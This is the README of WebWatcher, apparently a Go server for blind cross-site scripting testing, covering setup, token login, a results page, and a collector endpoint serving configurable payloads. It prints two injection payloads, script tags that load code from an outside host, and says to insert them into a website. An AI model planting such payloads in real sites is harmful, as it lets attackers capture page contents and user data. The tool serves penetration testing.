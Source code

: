 # WebWatcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  


Setup .wwconfig and add it to your home directory.  
Make sure that `assets` and `templates` are in the directory specified in config.  

Login to your website with /login?token=[token]  

## Usage
After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
and insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.
`<script src=https://example.com></script>`  
![blind xss](_img/blindxss.png)  



